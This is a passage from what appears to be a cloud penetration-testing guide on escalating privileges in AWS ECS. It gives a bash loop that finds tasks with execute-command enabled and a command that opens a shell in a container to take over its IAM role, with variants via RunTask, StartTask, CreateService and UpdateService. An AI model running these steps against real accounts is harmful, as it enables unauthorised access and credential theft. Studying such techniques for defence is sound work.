 ### `ecs:ExecuteCommand`, `ecs:DescribeTasks,`**`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

An attacker with the **`ecs:ExecuteCommand`, `ecs:DescribeTasks`** can **execute commands** inside a running container and exfiltrate the IAM role attached to it (you need the describe permissions because it's necessary to run `aws ecs execute-command`).\
However, in order to do that, the container instance need to be running the **ExecuteCommand agent** (which by default isn't).

Therefore, the attacker cloud try to:

* **Try to run a command** in every running container

```bash
# List enableExecuteCommand on each task
for cluster in $(aws ecs list-clusters | jq .clusterArns | grep '"' | cut -d '"' -f2); do
   echo "Cluster $cluster"
   for task in $(aws ecs list-tasks --cluster "$cluster" | jq .taskArns | grep '"' | cut -d '"' -f2); do
      echo "  Task $task"
      # If true, it's your lucky day
      aws ecs describe-tasks --cluster "$cluster" --tasks "$task" | grep enableExecuteCommand
   done
done

# Execute a shell in a container
aws ecs execute-command --interactive \
   --command "sh" \
   --cluster "$CLUSTER_ARN" \
   --task "$TASK_ARN"
```

* If he has **`ecs:RunTask`**, run a task with `aws ecs run-task --enable-execute-command [...]`
* If he has **`ecs:StartTask`**, run a task with `aws ecs start-task --enable-execute-command [...]`
* If he has **`ecs:CreateService`**, create a service with `aws ecs create-service --enable-execute-command [...]`
* If he has **`ecs:UpdateService`**, update a service with `aws ecs update-service --enable-execute-command [...]`

You can find **examples of those options** in **previous ECS privesc sections**.

**Potential Impact:** Privesc to a different role attached to containers.

### `ssm:StartSession`

Check in the **ssm privesc page** how you can abuse this permission to **privesc to ECS**:

{% content-ref url="aws-ssm-privesc.md" %}
[aws-ssm-privesc.md](aws-ssm-privesc.md)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

Check in the **ec2 privesc page** how you can abuse these permissions to **privesc to ECS**:
